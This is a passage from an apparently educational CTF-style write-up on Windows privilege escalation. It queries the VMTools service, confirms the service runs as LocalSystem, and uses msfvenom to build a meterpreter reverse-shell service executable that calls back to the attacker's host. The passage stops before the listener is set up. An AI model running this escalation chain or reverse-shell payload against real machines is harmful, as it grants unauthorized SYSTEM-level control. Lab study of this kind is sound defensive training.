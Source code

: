 So we can change any properties of the **VMTools** service. We know that this service runs the **vmtoolsd** process. We can see if this process is running as **`NT AUTHORITY\SYSTEM`**. To do this, we can use the following command :

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe qc VMTools
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VMware Tools
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

**VMTools** service runs as **`LocalSystem`**. According to [this](https://learn.microsoft.com/fr-fr/windows/win32/services/localsystem-account?redirectedfrom=MSDN) documentation : 

> The **LocalSystem** account is a predefined local account used by the service control manager. This account is not recognized by the security subsystem, so you cannot specify its name in a call to the **[LookupAccountName](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-lookupaccountnamea)** function. It has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the **NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs**
> 

If we get a shell as this user, we may gain administrative privileges on the target system. We have everything we need to escalate our privileges.

# Privilege escalation

First, let’s use **`msfvenom`** to generate a malicious executable that will open a meterpreter to our attacking host : 

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4242 -f exe-service -o rshell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe-service file: 48640 bytes
Saved as: rshell.exe
```

Now, we can run **`msfconsole`** and start a listener in order to receive the connexion from the meterpreter : 
